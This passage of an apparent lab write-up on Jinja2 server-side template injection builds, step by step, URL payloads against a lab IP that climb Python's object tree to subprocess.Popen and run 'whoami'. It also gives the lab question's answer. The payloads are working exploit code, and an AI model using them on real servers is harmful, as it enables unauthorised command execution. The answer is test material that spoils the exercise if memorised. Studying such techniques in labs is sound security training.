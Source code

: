 Note: Jinja2 is essentially a sub language of Python that doesn't integrate the import statement, which is why the above does not work.</p>

<h3>Crafting a proof of concept (Jinja2)</h3>
<p>Python allows us to call the current class instance with .__class__, we can call this on an empty string:<br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__ }}</code>.</p>

<p>Classes in Python have an attribute called .__mro__ that allows us to climb up the inherited object tree:<br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__.__mro__ }}</code>.</p>

<p>Since we want the root object, we can access the second property (first index):<br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__.__mro__[1] }}</code>.</p>

<p>Objects in Python have a method called .__subclassess__ that allows us to climb down the object tree:<br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}</code>.</p>

<p>Now we need to find an object that allows us to run shell commands. Doing a Ctrl-F for the modules in the code above yields us a match:</p>

![image](https://github.com/user-attachments/assets/179680fc-9e8e-4421-848e-a055bf864711)

<p>As this whole output is just a Python list, we can access this by using its index. You can find this by either trial and error, or by counting its position in the list.<br><br>

In this example, the position in the list is 400 (index 401):<br><br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}</code>.<br><br>

The above payload essentially calls the subprocess.Popen method, now all we have to do is invoke it (use the code above for the syntax)<br><br>

Payload: <code>http://10.10.211.207:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}</code>.</p>

<h3>Finding payloads</h3>
<p>The process to build a payload takes a little while when doing it for the first time, however it is important to understand why it works.<br><br>

For quick reference, an amazing GitHub repo has been created as a cheatsheet for payloads for all web vulnerabilities, including SSTI.<br><br>

The repo is located here, while the document for SSTI is located here.</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

<br>

> 5.1. <em>What is the result of the "whoami" shell command?</em> Hint : <em>The whole output shows a tuple, not just the result.</em><br><a id='5.1'></a>
>> <strong><code>jake</code></strong><br>
<p></p>
